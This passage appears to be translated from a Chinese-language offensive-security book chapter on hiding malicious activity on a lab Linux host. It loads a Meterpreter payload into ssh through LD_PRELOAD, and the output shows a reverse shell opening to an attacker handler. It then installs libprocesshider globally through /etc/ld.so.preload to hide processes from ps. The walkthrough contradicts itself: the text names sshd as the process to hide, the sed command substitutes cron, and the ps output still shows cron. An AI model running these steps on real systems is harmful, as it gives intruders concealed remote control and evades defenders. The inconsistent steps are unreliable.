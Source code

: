 如果你的恶意操作会建立网络连接，建议使用一个蓝队期望看到进行网络活动的进程，例如 SSH 服务器或 Web 服务器。在这种情况下，我们将使用 sshd，并执行 Listing 12-1 中的命令。

```
$ **LD_PRELOAD=/tmp/meterpreter.so ssh**
```

Listing 12-1: 使用 LD_PRELOAD 预加载 Meterpreter

在 Metasploit 中，你应该看到类似以下的输出：

```
[*] Started reverse TCP handler on 172.16.10.1:2222
[*] Sending stage (3045348 bytes) to 172.16.10.13
[*] Meterpreter session 1 opened (172.16.10.1:2222 -> 172.16.10.13:46048)

meterpreter > 
```

现在你已经获得了一个 Meterpreter shell，运行 help 命令查看可用的命令。

### 进程隐藏

隐藏恶意进程的另一种方法是使用 *libprocesshider*，它由 Gianluca Borello 开发。这个工具也使用预加载技术，在加载其他库之前加载自定义的共享库。我们将使用 libprocesshider 来隐藏诸如 ps 之类工具中的进程名称。

在 Kali 上，运行以下命令来克隆 GitHub 仓库：

```
$ **git clone https://github.com/gianlucaborello/libprocesshider**
$ **cd libprocesshider** 
```

接下来，修改 *processhider.c* 脚本，使用你想隐藏的进程名称（而不是脚本默认的 *evil_script.py*）。在这种情况下，我们将其替换为 *sshd*：

```
$ **sed -i s'/evil_script.py/cron/'g processhider.c**
```

接下来，使用 make 命令编译脚本：

```
$ **make**
```

此命令应创建一个名为 *libprocesshider.so* 的文件。将其复制到 *p-jumpbox-01* 机器（172.16.10.13）。接着，使用 *root* 用户将 *libprocesshider.so* 的文件路径添加到 *p-jumpbox-01* 上的 */etc/ld.so.preload* 文件中。添加此行后，变更应立即生效：

```
# **echo /tmp/libprocesshider.so >> /etc/ld.so.preload**
```

再次运行 ps 查看结果：

```
# **ps aux**

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2752   972 ?        Ss   03:23   0:00 /bin/sh -c service ssh re...
root          29  0.0  0.0   3760  2132 ?        Ss   03:23   0:00 /usr/sbin/cron -P
root          30  0.0  0.0   2684   904 ?        S    03:23   0:00 tail -f /dev/null
root          34  0.0  0.0   4524  3892 pts/0    Ss+  03:23   0:00 bash
backup        68  0.0  0.0   4524  3836 pts/1    Ss   03:26   0:00 -bash
backup       113  0.0  0.0   4524  3748 pts/2    Ss   03:38   0:00 -bash
backup       116  100  0.1   8224  4064 pts/2    R+   03:38   0:00 ps aux 
```
